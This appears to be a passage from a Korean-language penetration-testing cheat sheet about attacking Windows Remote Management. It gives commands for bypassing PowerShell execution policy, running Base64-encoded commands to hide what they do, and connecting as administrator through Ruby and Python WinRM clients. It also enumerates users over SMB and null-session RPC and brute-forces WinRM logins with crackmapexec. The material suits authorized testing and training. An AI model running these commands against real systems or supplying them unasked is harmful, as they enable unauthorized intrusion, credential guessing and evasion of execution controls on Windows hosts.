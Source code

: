 ### 🔧 PowerShell 실행 정책 문제

```bash
# PowerShell 실행 정책 확인 (WinRM 세션 내)
Get-ExecutionPolicy
Get-ExecutionPolicy -List

# 실행 정책 우회
powershell.exe -ExecutionPolicy Bypass -File script.ps1
powershell.exe -ExecutionPolicy Unrestricted -Command "command_here"

# Base64 인코딩 명령 실행
$command = "whoami"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encodedCommand
```

### 📱 evil-winrm 연결 문제

```bash
# 다른 WinRM 클라이언트 시도
# Ruby WinRM 라이브러리 직접 사용
require 'winrm'
conn = WinRM::Connection.new(
  endpoint: 'http://{IP}:5985/wsman',
  user: 'administrator',
  password: 'password'
)
conn.shell(:powershell) do |shell|
  output = shell.run('whoami')
  puts output.output
end

# Python pywinrm 사용
python3 -c "
import winrm
session = winrm.Session('{IP}', auth=('administrator', 'password'))
result = session.run_ps('whoami')
print(result.std_out)
"
```

---

## 🔗 다른 서비스와 연계

### 🗂️ SMB/RPC와 연계

```bash
# SMB에서 수집한 사용자로 WinRM 접근
enum4linux {IP} | grep "user:" | cut -d[ -f2 | cut -d] -f1 > winrm_users.txt
crackmapexec winrm {IP} -u winrm_users.txt -p passwords.txt

# RPC에서 수집한 정보 활용
rpcclient -U "" -N {IP}
# enumdomusers 결과를 WinRM 브루트포스에 활용
```
